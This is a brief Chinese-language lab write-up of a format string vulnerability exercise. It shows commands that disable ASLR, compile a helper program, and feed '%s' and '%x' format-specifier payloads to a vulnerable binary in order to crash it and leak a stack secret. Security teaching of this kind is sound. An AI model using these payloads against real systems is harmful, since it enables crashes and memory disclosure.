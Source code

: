 编译 write_string.c

```bash
sudo sysctl -w kernel.randomize_va_space=0

gcc write_string.c -o write
```

![image-20220321002629097](FormatString/image-20220321002629097.png)

### 崩溃程序

```bash
./write

%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s


./vul < mystring
```

![image-20220321002850115](FormatString/image-20220321002850115.png)

### 打印出secret[1]值

```bash
./write

%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

./vul < mystring
```

![image-20220321003212274](FormatString/image-20220321003212274.png)
